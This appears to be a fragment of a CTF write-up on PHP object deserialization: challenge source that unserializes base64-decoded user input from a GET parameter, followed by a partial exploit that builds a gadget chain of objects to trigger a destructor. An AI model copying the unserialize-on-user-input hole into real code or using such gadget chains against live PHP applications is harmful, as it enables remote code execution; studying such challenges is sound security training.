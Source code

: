 ```php
    public $passwd = "ctf";
    public $notes;

    function __construct($user, $passwd)
    {
        $this->user = $user;
        $this->passwd = $passwd;
    }

    function __destruct()
    {
        if ($this->user === "SWPU" && $this->passwd === "NSS") {
            echo "Now you know how to use __construct<br/>";
            echo "your notes" . $this->notes;
        } else {
            die("N0!");
        }
    }
}


if (isset($_GET['ser'])) {
    $ser = unserialize(base64_decode($_GET['ser']));
} else {
    echo "Let's do some deserialization :)";
}
```

**exp**

```php
<?php

class NSS
{
    public $cmd;

}


class C
{
    public $whoami;

}

class T
{
    public $sth;

}

class F
{
    public $user = "SWPU";
    public $passwd = "NSS";
    public $notes;

}

$a = new F();
$a->notes = new T();
$a->notes->sth = new C();
$a->notes->sth->whoami = new NSS();
```